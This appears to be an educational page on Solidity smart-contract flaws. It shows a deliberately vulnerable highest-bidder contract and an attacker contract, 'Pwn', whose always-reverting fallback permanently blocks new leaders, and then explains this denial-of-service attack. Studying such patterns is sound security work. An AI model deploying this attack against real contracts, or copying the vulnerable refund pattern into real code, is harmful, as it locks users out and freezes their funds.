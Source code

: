 ## Call to the Unknown (DoS with unexpected revert)

```solidity
pragma solidity ^0.8.12;
contract CallToTheUnknown {
  // Highest bidder becomes the Leader. 
  // Vulnerable to DoS attack by an attacker contract which reverts all transactions to it.

    address public currentLeader;
    uint public highestBid;

    fallback() external payable {
        require(msg.value > highestBid);
        require(payable(currentLeader).send(highestBid)); // Refund the old leader, if it fails then revert
        currentLeader = msg.sender;
        highestBid = msg.value;
    }
}

contract Pwn {
  // call become leader
  // CallToTheUnknown  calltotheunknown;
  //   constructor(address addr)  {
  //       calltotheunknown = CallToTheUnknown(payable(addr));
  //   }

  function becomeLeader(address payable addr) payable external{
      (bool sent, ) = addr.call{value: msg.value}("");
      require(sent, "Failed to send Ether");
  }
    
  // reverts anytime it receives ether, thus cancelling out the change of the leader
  fallback() payable external {
    revert();
  }
}
```











## About the Contract 

In this case, an attacker’s contract could first claim leadership by sending enough ether to the insecure contract. Then, the transactions of another player who would attempt to claim leadership would throw due to line 25 in the above snippet.

Although a simple attack, this causes a permanent denial of service to the contract rendering it useless. This can be found in other ponzi scheme contracts that follow the same pattern.
